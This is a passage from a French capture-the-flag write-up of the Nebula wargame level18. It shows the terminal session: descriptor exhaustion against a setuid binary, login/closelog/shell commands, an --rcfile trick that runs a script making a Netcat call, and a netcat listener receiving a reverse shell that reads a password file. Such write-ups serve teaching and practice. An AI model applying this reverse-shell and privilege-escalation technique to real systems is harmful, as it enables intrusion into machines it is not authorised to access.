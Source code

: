 Il faut avoir recours à la commande `closelog` présente dans le binaire à cet effet : elle ferme le descripteur du fichier de log et ça permet alors aux librairies de se charger :

```bash
level18@nebula:~$ ./exhaust 1020
ready

/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
login aa
closelog
shell
/tmp/log: line 2: syntax error near unexpected token `('
/tmp/log: line 2: `logged in successfully (without password file)'
```

J'obtiens alors mon reverse shell :

```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:52243.
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
pwd
/home/level18
cd ../flag18
ls
flag18
toto
cat password
44226113-d394-4f46-9406-91888128e27a
getflag
You have successfully executed getflag on a target account
```

Pour y arriver il aura aussi fallu que je créé un script bash (contenant l'appel à Netcat) nommé `Starting` car l'option `--rcfile` qui est transférée à bash va essayer d'exécuter notre fichier de log.

Voir les solutions ici pour plus de détails :

[Cracking Nebula Part 2](https://unlogic.co.uk/posts/2014-07-02-cracking-nebula-part2/)

[Craftware](https://craftware.xyz/ctf/2012/07/21/Nebula-wargame-walkthrough.html)

[---=[ Kernel Inside ]=---: Nebula CTF - level18](https://www.kernelinside.com/2018/07/nebula-ctf-level18.html)

